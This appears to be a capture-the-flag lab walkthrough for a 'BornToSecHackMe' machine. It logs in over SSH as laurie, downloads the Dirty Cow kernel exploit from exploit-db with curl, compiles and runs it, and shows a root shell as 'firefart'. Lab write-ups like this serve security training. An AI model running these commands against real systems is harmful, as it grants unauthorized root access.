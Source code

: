 # Kernel exploit : Dirty Cow (Ptrace)



Once you are connected as Laurie :

```bash
$ ssh laurie@IP
$ Password : 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
```



You can download this Kernel exploit : https://www.exploit-db.com/exploits/40839

```bash
laurie@BornToSecHackMe:~$ curl https://www.exploit-db.com/raw/40839 > dirty.c
laurie@BornToSecHackMe:~$ gcc -pthread dirty.c -o dirty -lcrypt
laurie@BornToSecHackMe:~$ chmod +x dirty
laurie@BornToSecHackMe:~$ ./dirty
# Wait
laurie@BornToSecHackMe:~$ su firefart
Password:
firefart@BornToSecHackMe:/home/laurie# whoami
firefart
firefart@BornToSecHackMe:/home/laurie# id
uid=0(firefart) gid=0(root) groups=0(root)
firefart@BornToSecHackMe:/home/laurie#
```


